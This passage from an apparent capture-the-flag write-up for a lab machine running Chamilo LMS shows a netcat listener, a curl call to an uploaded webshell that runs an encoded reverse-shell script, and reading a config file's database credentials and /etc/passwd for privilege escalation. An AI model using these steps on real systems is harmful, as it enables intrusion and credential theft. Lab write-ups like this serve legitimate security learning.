     ```bash
    nc -lvnp $attack_port
    ```

    - Note: The curl command below has the encoded version of the command: bash rev_shell.sh

    #### Executing rev_shell.sh

    ```bash
    curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=%62%61%73%68%20%72%65%76%5f%73%68%65%6c%6c%2e%73%68'
    ```

We're in! The terminal window running netcat should now have a shell session with the victim machine

## Privilege escalation

It's time to escalate our privilege:

- We begin by navigating to the following file: '/var/www/chamilo/app/config/configuration.php'

    - I grepped for 'db_' and found the following: 

    #### Configuration.php

    ```php
    $_configuration['db_host'] = 'localhost';
    $_configuration['db_port'] = '3306';
    $_configuration['db_user'] = 'chamilo';
    $_configuration['db_password'] = '0*********8';
    $_configuration['db_manager_enabled'] = false;
    //$_configuration['session_stored_in_db_as_backup'] = true;
    //$_configuration['sync_db_with_schema'] = false;
    ```

- The next logical step was to try these credentials in the login page and ssh to the victim machine. Both of these options failed.

- Next, back in my reverse shell session, I decided to grep the '/etc/passwd' file for the term '/bash':

    #### Terminal

    ```bash
    cat /etc/passwd | grep /bash
    ```

    #### Output

    ```
    root:x:0:0:root:/root:/bin/bash
    m**:x:1000:1000:mtz:/home/mtz:/bin/bash
    ```

    - Let's try to SSH as the non-root user we found... Success!
